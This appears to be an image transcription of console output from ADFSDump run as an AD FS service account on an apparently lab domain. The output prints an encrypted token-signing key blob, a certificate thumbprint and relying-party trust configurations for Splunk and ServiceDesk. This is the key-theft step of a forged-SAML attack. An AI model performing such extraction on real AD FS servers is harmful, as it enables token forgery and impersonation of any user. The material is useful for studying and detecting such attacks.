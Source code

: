 
C:\Users\adfs_svc\Documents>ADFSDump.exe                                                                                                                                                                       
## Extracting Private Key from Active Directory Store                                                                                                                                                          
[-] Domain is 0x0security.local                                                                                                                                                                                
!!! Exception getting private key: System.DirectoryServices.DirectoryServicesCOMException (0x80072020): An operations error occurred.                                                                          
   at System.DirectoryServices.DirectoryEntry.Bind(Boolean throwIfFail)                                                                                                                                        
   at System.DirectoryServices.DirectoryEntry.Bind()                                                                                                                                                           
   at System.DirectoryServices.DirectoryEntry.get_AdsObject()                                                                                                                                                  
   at System.DirectoryServices.DirectorySearcher.FindAll(Boolean findMoreThanOne)                                                                                                                              
   at ADFSDump.ActiveDirectory.ADSearcher.GetPrivKey(Dictionary`2 arguments)                                                                                                                                   
!!! Are you sure you are running as the AD FS service account?                                                                                                                                                 
## Reading Encrypted Signing Key from Database                                                                                                                                                                 
[-] Encrypted Token Signing Key Begin                                                                                                                                                                          
AAAAAQAAAAAEEMUbjRG9qANJgOJkxfUI3U0GCWCGSAFlAwQCAQYJYIZIAWUDBAIBBglghkgBZQMEAQIEIPdx4WLWEm62n+giZRD++PKPFh7XMqf1KoGzC6Yol4HlBBAu+VvAWXjmL0QVE4fRZGngIIIKILGFjmMJlowmqg9CB8CckgS/bhfV+S0qJwHUV+9QnHDaA+GltbZ/C7d
e14GR92+vDD+cmH6kpIfQsFTBmtqdKK2h4/HdplBXgn9v6A0vducF4xlwyOgdSFVIlrTM48v1o3B7NLzBUCisaux44x3XWAB3rL4LbcXrot5RMyKwSHm3YYMNmTdixGTP9VBK/hV7t6TUNAAcWa8k11sgkGtYEiX3f75augH2LSjwF0XPSxD1zJiFJiuNL8IopLbDuVi4VzeARX
MjOghU35F2zNBmMIrXILUklR8cU2h7lqKRflO31julgivX7AkxkFZAl0Psr1cMA3/mWkeGRpjoGv5kRpEIkg7wWzBZFZ7fNNIeMCVyg2+qRDCcdHVTEhGPcAXbwg/8YB7P4IDvO621ODsOqp5TINUUrLk4TMBXCVQK6IdbvFsFfXdygkxs9Poii1jBnkLiDXyGPof1/wAuJtQlo
w+FidDweVzdhkXtAF5DJntEQtngmrT5RVoKiRbsAQoDrUqWdnP6dO4R22+OAAMDpUNyUeNkKZ5A3VoMvEohDPtKY0Y77IkiJ8XtyHxoMg7ino/Xp6MjgbU7GkzMNfCcpaY80IpujCyQYVM0FLasRLzvBixZ06UfJilfgcmqOxcu+qCibRNeTU6kgbHOW8p5t3lcdFUUT2M9bHb8
6Zx8L4gUya418SvlwA8BjHqGl4xOBOR/TA9wiUimaYN8COapCXpZBpjSPQ6bI+OU9hXfC5lFLP27hMl/99JlWwGPxbJF2pDfIY7YO0EQ5t6+1Jy1cRUUGwcNOZD9WO5Q4XTOu1fMPyCD5FwJgyHiQEGPq7cWItKv1IhIWCf0umPb+Bdwqy3AWabZbvVZUTH+zMTh4jsLTvGuAPn
lQMjM986s7wMAYXdg/QW7EAEiuy2USZ1BLYM8iLz7fO+iuIxLB5qhMrdukB7UZ4Ot6jMzosqlIro5VI2rGPBo9NFQ7TVYn7lVJbQHaFeNLUINXG/4hN6snxBa7vXa7212LelRsHlx36D9nBq9+SkNJIAtOFdDHDn7eZBYOF+9feM8D83HtyBpp8e+nUWaajErHbU9X3xbJbSTiZ
nOhB7tiU0epfwGj+074ZjcoghwzBzGCXpP5iqivX7kZWUmeX0egHyxL5zJ1rdn6l6d0Ozid5ewq0udUQY51zAxTiKeaCB8eJ4mPTUTM98SXoLs84YwrHUfZNdivDbqQQsneVElFARJdWgGGDJOAdlDU9Sedp7059EJQeVETvlPjXwJ03YC50oGV9tXd/4KwkVtJZqesIWEWvkS9
XGBgRgS9pkwceZlzOciPLXs5lCMN7s9CUZe1T6Xr1hHbCKwf55VEGzXGF93gP+ieuoLcSTQqbbtkSV0DWqYBvNJtmoJ55+iOFo1uTE/txM1m3TSNEFIsxlO3xGrbTne2uUZRqRr/ozb7PSKb58iE5PukJ2Sr3QwWugO6aETwxHZTOdQ1LKTRyR/FDxytu6AUj67isg2vkh0cip7
l32uOnmbwRhB4BwIvQgtuenEuDA7yzWAPvNgi2oqyR1xM7cjBJq2vSsPaptRmxG6TfzPDUNHjmSVGQeMP9CSBm/h/FInIiQVN+WmY97q2Q/CTrVwt3XQuQwbb/MNfPPZ3fDUewWwnaHXq5ySoMbVI17L57ECLrNGJA6CSP/YXt1xgD7DiNtIL1lgF1ORgZldX2Vhu1Oipe58/eD
t0eSgxxm9oJlxx5ChNxrtdX1Nx4LhFhiLq6zxlLC7KtHgSWM/Pvkdhlc3e9WtemMvJVo11AMKvUsJ+5naFqmE5Et8GLZFZvl1U4K5qTRLfgTOIn6InpHQVkNBHuPRkWpEWV6R9ark51fpRl1tn+pUTAR8ULljpHi0mjc0gAya2mKkjZeM4vVQk/YbIh8JYRLQBiC9UEjtLxgjoB
o0kHjt9zHCemsigKbbCQvcNycN3EN8V4q7LKQSe3a5mwRfvfqkOSkzLq8ZH3oDucJsJY0/YWVICWzq2KuCrYE0fhfpV02gZButoIv0aJTaZe68Q7JUdf/EYPNAIsm6N1e8pSKuBkzSVP3v6rOJh+7Tl1fJ3qeI5AfVJaDpiKAcLGCwDXU10uE8jxe1R+ZRmS92yAz2npvGXz7r1
bg8P00YvFyP6xOhQbB0KhdIF2IEnbSQ0o35a6e0Qd+KCu+Vne7+e1AfXJoyYohPqLV0svdqICx9jpDuAp61B4vToq0RsZLN8KxgDGylVVSxmpiEZfXcwIFugzcy2mboBS2+3Za74M+88HCrd02IpU9gBxDb7QtKuFlCs6bGQLiEF5Py6gO1lP+1VNJtWexahER3JEwmeub10odx
uB0T0f//WOdHw0PooTMoq7kD+hiZLblMjkxCOYhlSHLrGLm3fFuHKxb5tsipVYkPUNLY4BseUSGr9b6Wg1IJl2aNYNKJKpI0YWP8GezjLE61ibZZiaXcV7NguBYiHc43N9oFf7iCiqt1Te39InEwyeA+FlCR5VsG/rue4/3Krr/POR2xMISWk3uUDXtURrXbQPRzDS3cY/TWl7m
5jIgR8+I9jc2r1LpJirV5V+hCTiV7fo/X9EM2YW5AlECF6tmBhEeTzp4pmw+u7FUXXJN0dkgyTzavGNluiG33h65OKyyV7CsVTxlEClUUYDaW9VhsFIXCQSLaIXcz1wYcmj7CM3vWRF1f+9mr1iMvJt4M9JMmTU1NfRKWoOk0Bdy86tGTlhFyfkabC34WBjzJi2cmYGPh3ZQLug
p7vaVOt5Y48s+B/adbXYPZ6PUrreFHl7F9mX56UuYir7Meb/1w6OzQGDh98xyY4Q8JGgdVWCddMwPw6nehwsPXhhohWNoQTYJ+wNwRtOe+IKi0mlVHcu02nuy4PcxCkKj2RLEwHIe2gCfaYYKpjgQFvg3de+PqHx84jmosUjR2lh04yLHj3AO6OUP/GHqegpm1N98KZwhQP4ELj
I8rr/U949bzCdG3uP8vt6FFKuqZNrH9KSLmWAEqsaI5I67cRpEkn1Grob5AVD1qs8L18yvCv3c/jk9bbctXlHQR5h2J9aOBR6Fj0xBcJlG8NhdDuwmcDR0/TpG92HB0RKl7Lw/BQoZK2c9fPs2c/KYuCkw5Ik8u9qnV2MnyDMxn6fg9drI0XWqYmkgIjRJKwgvtnkupN+Opua7O
JboTwq+UZ80ItwTB210F0kbeYzs5lwC3D9u4ZrY5bXr6fGiY6oWbpWSRWx7LFGW0nkH0EJ+ytxa7dhwBViyNxH94NUmHTxbwFeIBOG3PUg0Hx90Vlg7CHWN8xIR9TLH4IphpU88jiH+QXLC5GYA31Iww0ppaOWEfmf3wsMdJLbqjETVgvRJVYOimFQICmHzeZhkxR9pvwZvm30x
uSKf2GzKHDKzXBQ6IFUKug3OhNqTnJXLIop4EjtODjGRxVZYjUUvTQnENqxzF0vs9O39z1Xf8nlgZ9soKbw4/PXz4jg==
[-] Encrypted Token Signing Key End

[-] Certificate value: CF7F4D9BEE76758828D4F908F6CED5AD8C92E569
[-] Store location value: CurrentUser
[-] Store name value: My

## Reading The Issuer Identifier
[-] Issuer Identifier: http://adfs.0x0security.local/adfs/services/trust
[-] Detected AD FS 2019
[-] Uncharted territory! This might not work...
## Reading Relying Party Trust Information from Database
[-] 
splunk.gigantichosting                                                                                                                                                                                         
 ==================                                                                                                                                                                                            
    Enabled: True                                                                                                                                                                                              
    Sign-In Protocol: SAML 2.0                                                                                                                                                                                 
    Sign-In Endpoint: https://splunk.gigantichosting.local:8000/saml/acs                                                                                                                                       
    Signature Algorithm: http://www.w3.org/2000/09/xmldsig#rsa-sha1                                                                                                                                            
    SamlResponseSignatureType: 1;                                                                                                                                                                              
    Identifier: splunk.gigantichosting                                                                                                                                                                         
    Access Policy: <PolicyMetadata xmlns:i="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://schemas.datacontract.org/2012/04/ADFS">                                                                   
  <RequireFreshAuthentication>false</RequireFreshAuthentication>                                                                                                                                               
  <IssuanceAuthorizationRules>                                                                                                                                                                                 
    <Rule>                                                                                                                                                                                                     
      <Conditions>
        <Condition i:type="AlwaysCondition">
          <Operator>IsPresent</Operator>
        </Condition>
      </Conditions>
    </Rule>
  </IssuanceAuthorizationRules>
</PolicyMetadata>


    Access Policy Parameter: 
     
    Issuance Rules: @RuleTemplate = "MapClaims"
@RuleName = "nameid_adfs"
c:[Type == "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/upn"]
 => issue(Type = "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier", Issuer = c.Issuer, OriginalIssuer = c.OriginalIssuer, Value = c.Value, ValueType = c.ValueType, Properties["http://sch
emas.xmlsoap.org/ws/2005/05/identity/claimproperties/format"] = "urn:oasis:names:tc:SAML:2.0:nameid-format:transient");

@RuleTemplate = "LdapClaims"
@RuleName = "attrs"
c:[Type == "http://schemas.microsoft.com/ws/2008/06/identity/claims/windowsaccountname", Issuer == "AD AUTHORITY"]
 => issue(store = "Active Directory", types = ("realName", "mail", "http://schemas.microsoft.com/ws/2008/06/identity/claims/role"), query = ";displayName,mail,tokenGroups;{0}", param = c.Value);
 [-] 
servicedesk
 ==================
    Enabled: True
    Sign-In Protocol: SAML 2.0
    Sign-In Endpoint: https://servicedesk.gigantichosting.local/SamlResponseServlet
    Signature Algorithm: http://www.w3.org/2001/04/xmldsig-more#rsa-sha256
    SamlResponseSignatureType: 1;
    Identifier: ME_29472ca9-86f2-4376-bc09-c51aa974bfef
    Access Policy: <PolicyMetadata xmlns:i="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://schemas.datacontract.org/2012/04/ADFS">
  <RequireFreshAuthentication>false</RequireFreshAuthentication>
  <IssuanceAuthorizationRules>
    <Rule>
      <Conditions>
        <Condition i:type="AlwaysCondition">
          <Operator>IsPresent</Operator>
        </Condition>
      </Conditions>
    </Rule>
  </IssuanceAuthorizationRules>
</PolicyMetadata>


    Access Policy Parameter: 
    
    Issuance Rules: @RuleTemplate = "MapClaims"
@RuleName = "SDP NameID"
c:[Type == "http://schemas.microsoft.com/ws/2008/06/identity/claims/windowsaccountname"]
 => issue(Type = "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier", Issuer = c.Issuer, OriginalIssuer = c.OriginalIssuer, Value = c.Value, ValueType = c.ValueType, Properties["http://schemas.xmlsoap.org/ws/2005/05/identity/claimproperties/format"] = "urn:oasis:names:tc:SAML:2.0:nameid-format:transient");
